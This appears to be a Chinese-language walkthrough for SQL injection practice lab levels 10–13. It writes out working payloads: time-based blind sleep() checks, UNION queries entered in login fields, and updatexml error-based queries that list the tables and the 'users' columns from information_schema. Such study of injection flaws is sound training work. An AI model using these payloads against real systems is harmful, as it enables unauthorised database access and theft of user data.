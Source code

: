 # lv10
- 经过尝试
> 1“ and sleep(5)--+
- 有效，所以只需要双引号闭合，其余与lv9一样
> 1" and if(length(database())=8,sleep(5),1)--+
# lv11
- 跟第一题一样，只不过注入点在用户名和密码输入框，直接输入后点击登录即可
> ' order by 2#
- 有两列
> ' union select 1,database()#
- 获取当前使用数据库名称
# lv12
- 尝试闭合后报错，发现闭合

![](./img/lv12.1.png)
> ") order by 2#
- 有两列
> ") union select 1,database()#
- 获取当前使用数据库名称
# lv13
- 尝试闭合后报错，发现闭合方法

![](./img/lv13.1.png)
> ') order by 2#
- 有两列,首先updatexml修改函数，其次extractvalue查询函数
> ') and (select updatexml(1,concat('~',(select database())),1))#

> ') and updatexml(1,concat(1,(database())),1)#

> ') and (select updatexml(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1))#

> ') and (select updatexml(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='users')),1))#

> ') and (select updatexml(1,concat(1,(select column_name from information_schema.columns where table_name='users' limit 0,1)),1))#
